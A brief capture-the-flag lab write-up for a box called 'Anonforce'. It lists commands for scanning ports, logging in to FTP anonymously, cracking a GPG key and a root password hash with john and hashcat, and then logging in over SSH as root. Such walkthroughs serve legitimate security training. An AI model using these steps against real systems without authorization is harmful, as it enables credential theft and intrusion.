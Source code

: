 ```yaml
---
date: 2024-06-19
author: mrashco
title: Anonforce
tags: 
categories: 
series:
---
```

Writeup: [YouTube](https://youtu.be/viY-a3B1ItQ) // Blog

---

rustscan -a $ip, 21:ftp 22:ssh

ftp $ip, anonymous

user = m*******

get user.txt

- cat ~/user.txt

get /notread/*

- `gpg2john private.asc > private.hash`
- `john --wordlist=/rockyou.txt private.hash`
- x******

`gpg` [🔗](https://www.reddit.com/r/GnuPG/comments/mibwbv/i_have_an_elg_private_key_how_do_i_use_it_to/) [🔗](https://en.wikipedia.org/wiki/Pretty_Good_Privacy) 

- `gpg -d backup.pgp`

nano root.hash

- `hashcat root.hash rockyou.txt`
- h*****

`ssh root@$ip`